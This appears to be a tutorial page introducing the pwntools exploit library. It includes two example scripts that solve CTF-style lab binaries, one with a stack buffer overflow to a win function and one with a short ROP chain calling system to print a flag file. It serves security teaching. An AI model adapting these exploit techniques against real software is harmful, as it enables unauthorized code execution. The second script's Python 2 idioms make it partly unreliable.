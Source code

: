 Pwntools is a Python library that provides a set of utilities for developing exploits for binary programs. It simplifies the task of writing exploits by providing a set of powerful tools for working with low-level programming constructs, such as sockets, processes, and files.

Here are some basic things to know about pwntools:

- Pwntools provides a set of powerful tools for working with binary programs, including remote and local exploitation.
- It provides a simplified interface for interacting with low-level programming constructs, such as sockets and processes.
- It includes support for common exploit techniques, such as heap and stack spraying, shellcode injection, and return-oriented programming (ROP).
- It has a built-in ELF parser, which allows for easy inspection of binary files.
- Pwntools can be used with both Python 2 and Python 3.
- It provides a number of useful utilities, such as hexdump and cyclic, for working with binary data.
- Pwntools can be installed using pip or downloaded from the GitHub repository.

Here are some example use cases for pwntools:

- Writing a simple buffer overflow exploit for a binary program.
- Developing a remote exploit to exploit a network service running on a target machine.
- Building a payload to inject shellcode into a vulnerable program.
- Using ROP to bypass address space layout randomization (ASLR) and execute arbitrary code.
Example code 1
~~~
from pwn import *

# Connect to the target binary
p = process('./ret2win')

# Find the offset to overwrite the return address
offset = cyclic_find('faaagaaa')

# Craft the payload to overwrite the return address with the address of the ret2win function
payload = b'A' * offset
payload += p64(0x00400811)

# Send the payload to the binary
p.sendline(payload)

# Receive the output from the binary
output = p.recvall().decode('utf-8')

# Print the output
print(output)

~~~
Example code 2
~~~
from pwn import *

# create a process object and load the executable binary
p = process('./split')

# create an ELF object to parse the binary and retrieve useful information
elf = ELF('./split', checksec=False)

# determine the offset to the return address on the stack
offset = 40

# retrieve the addresses of the desired functions/strings using the ELF object
ret_address = 0x00000000004007c3
cat_flag_address = elf.search('/bin/cat flag.txt').next()
system_address = elf.plt.system

# display the retrieved addresses
info('cat_flag_address : {}'.format(hex(cat_flag_address)))
info('system_address: {}'.format(hex(system_address)))

# construct the payload by padding the offset with arbitrary characters
# then appending the address of the return instruction and the address of the system call with the argument of the flag file
payload = 'A' * offset + p64(ret_address) + p64(cat_flag_address) + p64(system_address)

# send the payload to the process and read the result
p.sendline(payload)
p.recvuntil('Thank you!')
result = p.recvall().strip('\n')

# print the result of executing the payload
success(result)
~~~
